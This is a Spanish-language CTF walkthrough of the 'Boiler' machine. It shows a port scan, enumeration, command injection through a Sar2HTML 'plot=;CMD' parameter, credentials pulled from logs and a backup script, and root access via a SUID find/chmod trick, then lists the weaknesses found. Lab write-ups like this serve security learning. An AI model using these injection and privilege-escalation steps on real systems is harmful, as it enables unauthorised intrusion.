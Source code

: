 # Boiler CTF
## Initial Scan
```
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enum
### FTP 
El login anonimo esta habilitado,veamos que hay dentro del ftp
```
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
```
Leemos el archivo y:
```
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```
Aplicamos rot13 y:
```
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```
### HTTP
#### Gobusting
```
/joomla (Status: 301)
/manual (Status: 301)
/robots.txt (Status: 200)
```
#### Robots.txt
```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
Al ultimo string le aplicamos dec to ascii , y lueoo base64 -d y obtenemos algo que parece un hash
```
99b0660cd95adea327c54182baa51584
```
Lo crackeamos y sale kidding

#### Joomla
```
/images (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/templates (Status: 301)
/bin (Status: 301)
/plugins (Status: 301)
/tests (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/installation (Status: 301)
/build (Status: 301)
/tmp (Status: 301)
/layouts (Status: 301)
/administrator (Status: 301)
/cli (Status: 301)
/_archive (Status: 301)
/_database (Status: 301)
/_files (Status: 301)
/_test (Status: 301)
```
#### test
En este endpoint tenemos un servicio llamado sar2html en Searchsploit tenemos una vuln conocida
```
Sar2HTML 3.2.1 - Remote Command Execution                                                                        | php/webapps/47204.txt
```
Si la leemos vemos que con hacer lo siguiente:
```
http://IP/joomla/_test/index.php?plot=;CMD
```
Podemos ejecutar codigo sin problema, intentemos obtner shell gracias a esto
```
http://10.10.180.113/joomla/_test/index.php?plot=;ls
```
Viendo los archivos en el directorios vemos un log.txt, veamos que hay en el mismo
```
Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
```

## Privesc
### Stoner
Dentro de la carpeta de basterd tenemos un archivo de backup lo leemos y podemos ver las creds de stoner
```
USER=stoner
#superduperp@$$no1knows
```
Con esto podemos logearnos como stoner
### Root
```
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```
El archivo no existe :v, busquemos SUID:
```
/usr/bin/find
```
Coneste podemos escalar privilegios de manera sencilla
```
stoner@Vulnerable:~$ find / -name bash -exec chmod +s {} \; 2>/dev/null
stoner@Vulnerable:~$ /bin/bash -p
```
Y shell as root

# Analisís de la intrusion
### Vuln sar2html versio
La version usada de sar2html es vulnerable a RCE , cosa que aprovechamos para poder leer un log con las credenciales de un usuario
### Sensible data exposure 
Las creds de basterd quedaron expuestas gracias al RCE lo que nos permitio iniciar sesión via SSH en el usuario
### Hardcoded credentials
En el archivo backup.sh estan las credenciales de stoner en texto plano, con ella accedimos a stoner
### SUID activo en find
EL archivo para el comando find tiene el SUID activo lo que permitio elevar privilegios hasta root
